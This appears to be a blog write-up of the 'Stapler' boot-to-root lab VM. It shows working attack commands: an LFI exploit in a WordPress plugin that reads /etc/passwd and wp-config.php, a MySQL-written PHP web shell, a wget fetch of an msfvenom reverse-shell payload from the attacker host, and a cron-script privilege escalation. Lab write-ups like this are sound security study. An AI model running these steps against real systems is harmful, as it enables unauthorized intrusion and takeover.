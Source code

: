 ```yaml
---
title: "B2R: Stapler"
description: "stapler"
categories: ["Boot2Root"]
date: 2016-12-24T23:45:38-05:00
---
```


Adding the IP address of the VM to the hosts file allows one to cut down on some typing.

![](https://i.imgur.com/cazlgnf.png)

## Executive Summary
This machine had several services running, some of which revealed employee names and accounts that could
later be leveraged to compromise the system. A Wordpress plug-in vulnerability was found and used to extract
database credentials, which then led to a non-privileged shell. Once scanned, it was discovered that a script
ran every 20 minutes as the `root` user and that the script was writable to our non-privileged user. This was
leveraged to create a `root` shell by replacing the file contents with a malicious payload.

## Execution

An initial recon scan on the target revealed the following services:

~~~bash.prettyprint
>> onetwopunch -t ip_addresses.txt -p tcp
~~~
![](https://i.imgur.com/YeosV0b.png)

All together, individual inspection of the services revealed a plethora of information about the company and
its employees. 
This section will cover the most direct route to `root`, 
but see the [Additional Discovery](#additional-discovery) section for that information.

Using `nikto` against the service on port `12380` revealed additional paths using the https protocol. 

~~~bash.prettyprint
>> nikto -host vm:12380
~~~
![](https://i.imgur.com/DTF5i00.png)

The site hosted at `/blogblog` is a Wordpress blog with a vulnerable plug-in, as discovered by `wpscan`.

~~~bash.prettyprint
wpscan -u https://vm:12380/blogblog/
~~~

![](https://i.imgur.com/uzdO1dx.png)
![](https://i.imgur.com/U2NyDnu.png)
![](https://i.imgur.com/LrEOKFq.png)

[This LFI vulnerability](https://www.exploit-db.com/exploits/39646/) allows an attacker to read the contents
of a file on the system by using that file as a "thumbnail" for a post. An attacker could use this to read
the contents of the Wordpress configuration file which has database credentials. The user account list for
this machine was also acquired using this method.

~~~bash.prettyprint
>> curl -k "https://vm:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=9898092807434134&short=rnd&term=rnd&thumb=../../../../../etc/passwd"
>> curl -k "https://vm:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=9898092807434134&short=rnd&term=rnd&thumb=../wp-config.php"
~~~
![](https://i.imgur.com/XMcARrC.png)

By curling the "image" urls, the contents can be read.

![](https://i.imgur.com/CVtnKiK.png)
![](https://i.imgur.com/rfez3zi.png)


With credentials and an open 3306 port, an attacker can log in and create a malicious file that would allow
remote code execution.

~~~bash.prettyprint
>> mysql -h vm -u root -p wordpress

mysql>> SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/root/www/rce.php'
~~~

![](https://i.imgur.com/h0gsLrZ.png)

With remote code execution enabled, an attacker can download a malicious payload that initiates a reverse
shell.

~~~bash.prettyprint
# start a web server to host the payload
>> systemctl start apache2

#create the payload in the web directory
>> msfvenom -p php/meterpreter_reverse_tcp LPORT=443 LHOST=$HOST_IP -t raw > /var/www/html/qq.php

# trigger remote commands that download the payload from the attacker's computer
>> curl "vm/rce.php?cmd=wget 192.168.110.101/qq.php"
>> curl "vm/rce.php?cmd=ls"
~~~

![](https://i.imgur.com/5WdoFhk.png)

A listener/handler is configured and the reverse shell kicked off on the victim computer

~~~bash.prettyprint
>> msfconsole -x "use exploit/multi/handler"

msfconsole>> set PAYLOAD php/meterpreter_reverse_tcp
msfconsolemsfconsole>> set LPORT 443
msfconsole>> exploit -j

# start the shell
>> curl "vm/qq.php"
~~~

![](https://i.imgur.com/Gxqwui2.png)

An attacker can now enumerate the contents of the victim's file system, allowing them identify any vulnerable
or mis-configured services that would allow them to elevate privileges. In this case, a cron script was
running a world-modifiable file as root.

![](https://i.imgur.com/I0kuii9.png)
![](https://i.imgur.com/bg9dpXH.png)


Further inspection of this scheduled task:

![](https://i.imgur.com/WXEowHC.png)

This task runs as the root user. All that was needed to become root was to replace the contents of the script
with a reverse shell.

![](https://i.imgur.com/vFqTefn.png)



## Additional Discovery

SMB enumeration and unprotected shares revealed some employee names and personal notes
![](https://i.imgur.com/VEFkW99.png)

Port 666 was serving a zip file of a screenshot of another personal note. The exif contained some notes for
the attacker.
![](https://i.imgur.com/vJBqGGF.png)

The anonymous ftp login also leaks information.
![](https://i.imgur.com/fW3Nl8k.png)
![](https://i.imgur.com/aFFIp9P.png)

Port 80 scan initially returned what looked like a user's dotfiles. This gave me the idea that someone may be
running a web server from their home directory.
![](https://i.imgur.com/w3143f7.png)

The Wordpress site could have been used as another vector for a shell by adding a reverse shell plug-in. The
users and passwords were crackable with the rockyou word list. Some users also reused their Wordpress
passwords for their machine accounts.

~~~bash.prettyprint
>> wpscan -u https://vm:12380/blogblog/ --enumerate u
~~~

![](https://i.imgur.com/v1GKKbb.png)

Without accessing the computer's `/etc/passwd` file, this gathering of information revealed the existence of
the following employees and a accounts:

~~~bash.prettyprint
barry
dave
elly
fred
garry
harry
heather
john
kathy
pam
peter
scott
tim
vicki
zoe
~~~
